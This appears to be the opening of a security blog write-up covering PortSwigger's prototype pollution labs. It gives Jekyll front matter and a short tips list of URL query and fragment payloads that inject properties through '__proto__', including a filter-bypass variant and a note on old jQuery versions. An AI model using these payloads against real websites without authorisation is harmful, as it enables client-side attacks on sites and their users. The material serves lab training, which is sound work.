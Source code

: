```yaml
---
layout: single
title: Prototype Pollution - PortSwigger
excerpt: "All Prototype Pollution labs of PortSwigger."
date: 2025-10-06
classes: wide
header:
  teaser: /img2/images/portswigger.png
  teaser_home_page: true
  icon: /img2/images/burp.jpg
categories:
  - portswigger
  - Web
tags:
  - Burpsuite
  - Prototype Pollution
---
```



## TIPS

- Payloads

```javascript
?__proto__[foo]=bar
?__proto__.foo=bar
?__pro__proto__to__[foo]=bar
#__proto__[foo]=bar    --> jQuery (<1.12 / <2.2)
```

- DOM Invader

![](/img2/Pasted%20image%2020251005181722.png)

![](/img2/Pasted%20image%2020251005181848.png)
